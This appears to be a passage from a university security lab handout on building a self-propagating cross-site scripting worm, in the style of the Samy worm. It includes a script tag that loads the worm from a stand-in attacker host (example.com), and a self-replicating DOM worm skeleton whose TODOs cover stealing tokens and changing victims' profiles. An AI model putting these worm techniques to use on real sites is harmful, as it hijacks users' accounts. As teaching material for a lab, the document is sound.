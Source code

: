> **Note:**
You are encouraged (but not required) to try both the Link and DOM approaches if you are interested in comparing the approaches.




#### Link Approach

If the worm is included using the `src` attribute in the `<script>` tag, writing self-propagating worms is quite easy.
We discussed the `src` attribute in Task 1, and an example is given below.
The worm can simply copy the following `<script>` tag to the victim's profile, essentially infecting the profile with the same worm.

```js
<script type="text/javascript" src="http://example.com/xss_worm.js"></script>
```

> **NOTE:** Here `http://example.com/` is an example of a server that you as the attacker control.
> If you want to use this approach, you need somewhere to store your `xss_worm.js` file.
> This could be on a server running on your VM (`http://10.9.0.1/`),
> or a service that allows you to easily store/share code online (e.g., [GitHub Gist](https://gist.github.com/) or [Pastebin](https://pastebin.com/)),
> or something else!

#### DOM Approach

Assuming the entire JavaScript code (i.e., the worm) is embedded in the infected profile,
to propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from the web page.
An example of using DOM APIs is given below.
This code gets a copy of itself, and displays it in an alert window:

```js
<script id=worm>
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";  // (1)
    var jsCode = document.getElementById("worm").innerHTML;           // (2)
    var tailTag = "</" + "script>";                                   // (3)

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);  // (4)

    alert(jsCode); // this can be used for testing; replace with actual XSS worm payload.

    // TODO: Get the name, guid, timestamp, and token.
    // TODO: Set the content of the description field and access level.
    // TODO: Set the URL, and create and send Ajax request to modify profile
    // TODO: Set the URL, and create and send Ajax request to add Samy as a friend
</script>
```

It should be noted that `innerHTML` (2) only gives us the inside part of the code, not including the surrounding `script` tags.
We just need to add the beginning tag `<script id="worm">` (1) and the ending tag `</script>` (3) to form an identical copy of the malicious code.
